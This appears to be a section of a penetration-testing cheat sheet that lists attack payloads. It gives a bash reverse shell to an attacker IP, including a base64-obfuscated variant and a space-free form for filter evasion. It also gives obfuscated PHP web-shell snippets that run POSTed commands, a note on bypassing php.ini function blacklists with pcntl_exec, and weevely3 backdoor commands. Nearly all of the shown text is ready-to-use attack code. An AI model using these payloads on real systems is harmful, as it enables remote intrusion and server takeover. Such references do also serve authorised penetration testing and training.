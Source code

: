 #### 4.1. Base64 encoded payload

- Default: `bash -i >& /dev/tcp/[IP address]/[port] 0>&1`
- Modified: `bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMC4xLzgwODAgMD4mMQ==}|{base64,-d}|{bash,-i}`
- When spaces are not allowed as part of your payload (`echo${IFS}test` or `{echo,test}`)


#### 4.2. PHP code (file upload)

Example 1:
```php
// system($_POST['aaa'])
$k="sys"."tem";
$k(${"_PO"."ST"}['aaa']);
```

Example 2:
```php
// echo base64_decode("TE9M");
$x="b"."a"."s"."\x65"."64_\x64\x65\x63\x6f\x64\x65";
echo $x("TE9M");
```

Note on `php.ini`:
```
blacklisted: exec,system,passthru,shell_exec,popen,proc_open
alternative: pcntl_exec
```


#### 4.3. PHP backdoor `weevely3`

Backdoor source code is obfuscated by default.

```
:shell_sh -vector python_eval pwd
:shell_sh -vector perl_system pwd
:shell_sh -vector pcntl pwd
```
